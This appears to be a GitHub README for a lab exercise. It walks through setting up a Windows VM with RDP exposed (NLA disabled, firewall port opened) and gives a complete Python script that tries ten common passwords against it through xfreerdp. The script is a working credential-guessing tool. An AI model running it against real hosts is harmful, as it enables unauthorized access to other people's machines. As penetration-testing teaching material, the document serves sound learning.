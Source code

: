 # RDP Brute-Force Attack Tool

This is a Python-based brute-force script designed for **ethical hacking** and **cybersecurity learning** in a **controlled lab environment**. It targets a Windows VM with Remote Desktop Protocol (RDP) enabled and tests a list of passwords to identify weak credentials.

>  **Disclaimer:** This tool is for educational and authorized penetration testing purposes **only**. Misuse is illegal.

---

##  Features

- Python script using `xfreerdp`
- Tests 10 common passwords from a built-in wordlist
- Simple, beginner-friendly code
- Intended for virtual lab environments only

---

##  Lab Setup Instructions

### Step 1: Setup Network in VirtualBox

- Use **Host-Only Adapter** (or Internal Network) for both VMs:
  - Go to: *VirtualBox → Settings → Network*
  - Set `Adapter 1` → `Enable Network Adapter`
  - Attached to: **Host-Only Adapter**
  - Adapter Type: `Intel PRO/1000 MT Desktop`

Repeat the same for **Windows VM**.

### Step 2: Get IP Addresses

- **Kali Linux:**  
  Run `ip a` or `ifconfig`  
  Look for something like: `192.168.56.**`

- **Windows VM:**  
  Run `cmd` → `ipconfig`  
  Find: `IPv4 Address: 192.168.56.**`

---

##  Windows RDP Configuration

### Step 3: Enable RDP

- Run: `SystemPropertiesRemote`
- Check:  Allow remote connections
- Uncheck:  “Allow connections only from computers with NLA”

## 📸RDP Enabled
![Enable RDP on Windows Machine](https://github.com/user-attachments/assets/104ea17b-0ae3-4abe-a263-2532d0c3d89b)


### Step 4: Allow RDP Through Firewall

Run the following command as **Administrator** in CMD:

```bash
netsh advfirewall firewall add rule name="Allow RDP" dir=in action=allow protocol=TCP localport=3389
```

##  Running the Python Script
### Step 5: Install FreeRDP on Kali
```bash
sudo apt update
sudo apt install freerdp2-x1
```
## Step 5.2: Test RDP Connection from Kali
```bash
xfreerdp /v:<your windows machine ip> /u:Admin /p:12345 /cert:ignore
```
  If you see the desktop or authentication prompt, it works.

### Step 6: Write the Brute-Force Script
Create the file:
```bash
nano rdp_brute.py
```
## Paste the code:
```bash
import subprocess

target_ip = "192.168.56.**"  # Change to your Windows VM IP
username = "administrator"    # Change to your Windows user

passwords = [
    "123456", "admin", "administrator", "password",    
    "admin123", "test123", "welcome", "qwerty", "1234", "56789"
]

print(f"[*] Starting brute-force on {target_ip} with username '{username}'...\n")

for attempt, password in enumerate(passwords, 1):
    print(f"[{attempt}/10] Trying password: {password}")
    try:
        result = subprocess.run(
            ["xfreerdp", f"/v:{target_ip}", f"/u:{username}", f"/p:{password}", "/cert:ignore"],
            capture_output=True, text=True, timeout=10
        )

        if "Authentication only, exit status 0" in result.stderr or result.returncode == 0:
            print(f"\n[+] SUCCESS! Password found: {password}")
            break
        else:
            print("[-] Failed.")
    except subprocess.TimeoutExpired:
        print("[!] Timeout, skipping...")
    except Exception as e:
        print(f"[!] Error: {e}")
else:
    print("\n[-] Tried all 10 passwords. No match found.")

```
Save and exit:
**Press Ctrl + O, then Enter**
**Press Ctrl + X to exit nano**

### Step 7: Run the Script

```bash
python3 rdp_brute.py
```
You’ll see it try each password and print either "Success" or "Failed"

## 📸 Successful Login
![brute_force_success](https://github.com/user-attachments/assets/ae66d164-0ae5-42ae-b071-1de4814a21c5)




